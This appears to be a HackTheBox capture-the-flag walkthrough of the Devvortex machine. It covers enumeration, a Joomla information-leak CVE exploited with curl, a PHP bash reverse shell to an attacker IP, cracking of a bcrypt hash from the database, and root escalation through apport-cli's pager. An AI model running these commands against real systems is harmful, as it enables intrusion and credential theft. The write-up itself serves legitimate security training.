









# <center>Devvortex</center>


Hello everyone. Let's solve an easy labeled linux based HTB machine named Devvortex.

## Initial Step

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.242).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration

- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)

```bash
    nmap -A -T4 10.10.11.242

    # Nmap 7.94SVN scan initiated Mon Apr  1 15:14:52 2024 as: nmap -A -T4 -oN nmap_on_10.10.11.242 10.10.11.242
    Nmap scan report for 10.10.11.242
    Host is up (0.27s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://devvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Apr  1 15:15:43 2024 -- 1 IP address (1 host up) scanned in 51.63 seconds

```
From the scan we can see normal port 80 -> http, it's domain `http://devvortex.htb` and 443 -> SSH, and  are open. Also it says, ngnix https server is running on port 80, but right now it is not accessible through the ip address. So let's add the ip and domain name in our /etc/hosts file.



Navigating to the domain, we can see a simple static website, and nothing much of an interest. So I moved to my next step of enumerating directories and subdomains.

- <strong> Enumerating directories for `devvortex.htb` using <u>dirsearch</u> tool</strong>
    - ```bash
        dirsearch -u http://devvortex.htb

        # Dirsearch started Mon Apr  1 15:48:49 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://devvortex.htb

        301   178B   http://devvortex.htb/js    -> REDIRECTS TO: http://devvortex.htb/js/
        200     7KB  http://devvortex.htb/about.html
        200     9KB  http://devvortex.htb/contact.html
        301   178B   http://devvortex.htb/css    -> REDIRECTS TO: http://devvortex.htb/css/
        403   564B   http://devvortex.htb/images/
        301   178B   http://devvortex.htb/images    -> REDIRECTS TO: http://devvortex.htb/images/
        403   564B   http://devvortex.htb/js/

        ```
    - So just some normal pages of static website, nothing interesting. Let's scan for some subdomains as well.

- <strong> Enumerating subdomains using <u>gobuster</u> tool</strong>
    - ```bash
        gobuster dns -d devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50


        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Domain:     devvortex.htb
        [+] Threads:    50
        [+] Timeout:    1s
        [+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
        ===============================================================
        Starting gobuster in DNS enumeration mode
        ===============================================================
        Found: dev.devvortex.htb
        Progress: 19966 / 19967 (99.99%)
        ===============================================================
        Finished
        ===============================================================
        ```

- So, we just found a complete domain. Let's add this as well in out /etc/hosts file and examine the website.
- while navigating through the website manually, I got a robots.txt file.


- /administrator immediately caught my eyes, and it has a joomla login page. I researched about joomla and found these features from [wikipedia](https://en.wikipedia.org/wiki/Joomla).
    - Joomla is a framework (CMS)
    - written in PHP
    - uses Object-Oriented Programming technique
    - stores data in Structured Query Language (MySQL) database.

    So, I am pretty sure that my knowledge of PHP and MySQL may come in handy any time 😉.

- tried logging in fuzzing different default credentials for a moment, but it was useless. So i googled the ways to bypass the joomla authentication and luckily I came through [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) in vulncheck.com. 

- following the direction I tried exploiting the vulnerability and got the credentials.

    - ```curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true```

    - 

    - user: lewis
    - password: P4ntherg0t1n5r3c0n##

- Using the credentials I got logged in.
    - 
Now my first intension was to get some place where I can inject some payloads to get get remode code execution(RCE). On navigating through different sections in the page, I came to a index.php file in system -> administrator templates -> atum files -> index.php. That php file could be used to run my payload and get a reverse shell. So I included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`system('bash -c "bash -i >& /dev/tcp/10.10.14.151/1234 0>&1"');`



A reverse shell will land on your netcat after you save the changes.
.

Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Now,let's go for user flag in /home/logan/user.txt . But we don't have permission to read that file since the user.txt belongs to logan and we are logged in as lewis. So, we need some horizontal previlege escalation. Since from the research about joomla, we knew that it stored the data in mySQL database and from api endpoint we have the mysql credentials of lewis.

`mysql -u lewis -p`

after this command , a password field is prompted is and entering the password we get logged into lewis's account. Using SQL knowledge, lets explore the contents....

1. `show databases;` -> displays all the databases present.
    ```SQL
    mysql> show databases;

    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | joomla             |
    | performance_schema |
    +--------------------+
    3 rows in set (0.01 sec)
    ```


2. `use joomla;` -> the joomla database might have the credentials, so lets shift to joomla database.
    ```SQL
    mysql> use joomla;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    ```


3. `show tables` -> lists all the table present in joomla database.
    - table named 'sd4fg_users' looks intriguing.

4. `select * from sd4fg_users` -> displays the contents of sd4fg_users table.
    ```SQL
    mysql> select * from sd4fg_users;
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-27 07:09:54 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
    | 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    ```

    Here we got the bcrypt hashed password for both user lewis and logan. Iused [this website](https://hashes.com/en/tools/hash_identifier) to decrypt the hash and retrieve the password.

    

    <center>or</center>

    You can also use hashcat or john the ripper with password file rockyou,txt which come downloaded in Kali, to decrypt the hash. Refer to the example hash [wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

    ```bash
    echo "\$2y\$10\$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" > hash.txt
    ```
    ```bash

    ######### using john the ripper #########

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt && john --show hash.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    No password hashes left to crack (see FAQ)
    ?:tequieromucho

    1 password hash cracked, 0 left                                     
    ```

    ```bash
    ####### using hashcat ########

    hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting

    OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ==================================================================================================================================================


    $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
    Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
    Time.Started.....: Sat Apr 27 13:54:43 2024 (11 secs)
    Time.Estimated...: Sat Apr 27 13:54:54 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      132 H/s (7.22ms) @ Accel:8 Loops:16 Thr:1 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 1408/14344385 (0.01%)
    Rejected.........: 0/1408 (0.00%)
    Restore.Point....: 1344/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
    Candidate.Engine.: Device Generator
    Candidates.#1....: teacher -> tagged
    Hardware.Mon.#1..: Temp: 80c Util: 92%

    Started: Sat Apr 27 13:54:26 2024
    Stopped: Sat Apr 27 13:54:54 2024
    ```

From recon part we know that SSH is running on open port 22. So, lets use the credentials to log into logan account using ssh. the we can simply cat out the user flag.



## Privilege Escalation

`sudo -l` command revealed that logan can run apport-cli with sudo privilege.

### What is this apport-cli?
- I checked on google and got a POC for privilege escalation. We can use apport-cli to report some files. Here the vullnerability is, when we report some files and then following few steps gives us vi editor. Now we have a vi editor with sudo privilege, it's a piece of cake. Lets exploit it.


```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

..dpkg-query: no packages found matching xorg
................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.5 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): 
```

By choosing to view the report, a Vi-like editor appeared, and I immediately remembered that by passing the !:command syntax, I could execute code. Since I was running the binary in a privileged context, I could gain root access by executing `!/bin/bash`  
    - 


After executing the command i was able to gain root access.

```bash
What would you like to do? Your options are:
S: Send report (1.5 KB)
V: View report
K: Keep report file for sending later or copying to somewhere else
I: Cancel and ignore future crashes of this program version
C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# exit
exit
!done  (press RETURN)
root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# 
```

Now, simply going to /root directory we can cat out the root flag. 
Hope this walkthrough was really interesting and you got to learn something new. Thankyou.
